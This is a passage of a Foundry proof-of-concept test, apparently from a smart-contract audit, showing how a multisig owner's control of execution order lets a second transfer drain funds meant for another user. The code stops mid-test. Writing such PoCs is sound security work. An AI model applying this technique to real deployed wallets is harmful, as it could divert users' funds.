 ```solidity
    function getOwners() external view returns (address[] memory owners);
}

contract YttriumzzDemo is Test {
    IExchangeV3 exchangeV3;
    IMultiSigWallet multiSigWallet;

    function setUp() public {
        vm.selectFork(vm.createFork(MAINNET_RPC_URL, MAINNET_BLOCK_NUMBER));

        exchangeV3 = IExchangeV3(ADDRESS_CONTRACT_ExchangeV3);
        multiSigWallet = IMultiSigWallet(ADDRESS_CONTRACT_MultiSigWallet);

        // as gas fee
        vm.deal(ADDRESS_USER_Attacker, 1 ether);
        // vm.deal(ADDRESS_USER_USER1, 1 ether);
        // vm.deal(ADDRESS_USER_USER2, 1 ether);
        vm.deal(ADDRESS_USER_ExchangeV3Owner, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner1, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner2, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner3, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner4, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner5, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner6, 1 ether);
    }

    function testYttriumzz0002() public {
        // The POC assumes the following scenario to reveal the impact of execution order:
        //   Execute1 transfer 0.5ETH to User1
        //   Execute2 to transfer the remaining wallet to User2
        //   Expect User1 and User2 to receive 0.5 ETH each

        vm.deal(ADDRESS_CONTRACT_MultiSigWallet, 1 ether);

        // Execute1
        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner1);
        uint transaction1Id = multiSigWallet.submitTransaction(ADDRESS_USER_USER1, 0.5 ether, "");
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner2);
        multiSigWallet.confirmTransaction(transaction1Id);
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner3);
        multiSigWallet.confirmTransaction(transaction1Id);
        vm.stopPrank();

        // Execute2
        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner1);
        uint transaction2Id = multiSigWallet.submitTransaction(ADDRESS_USER_USER2, address(multiSigWallet).balance, "");
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner2);
        multiSigWallet.confirmTransaction(transaction2Id);
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner3);
        multiSigWallet.confirmTransaction(transaction2Id);
        vm.stopPrank();

        // The Owner4 control the execution order
        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner4);
```